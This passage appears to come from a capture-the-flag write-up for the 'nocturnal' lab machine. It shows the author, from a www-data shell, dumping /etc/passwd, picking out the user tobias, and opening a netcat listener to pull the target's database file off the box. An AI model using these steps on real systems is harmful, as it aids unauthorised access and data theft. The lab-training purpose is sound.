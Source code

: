 Obiously we still need to go to another user, as we are on `www-data` right now. I watch on the `/etc/passwd` file
```
www-data@nocturnal:~/nocturnal.htb$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
ispapps:x:1001:1002::/var/www/apps:/bin/sh
ispconfig:x:1002:1003::/usr/local/ispconfig:/bin/sh
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
```

I see the tobias user.
Let's see on the mysqli database if there is the tobias user.

To pass the file I will start a netcat listener like always, but redirect the output on a file.
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ nc -nvlp 3011 > nocturnal_database.db
listening on [any] 3011 ...
```
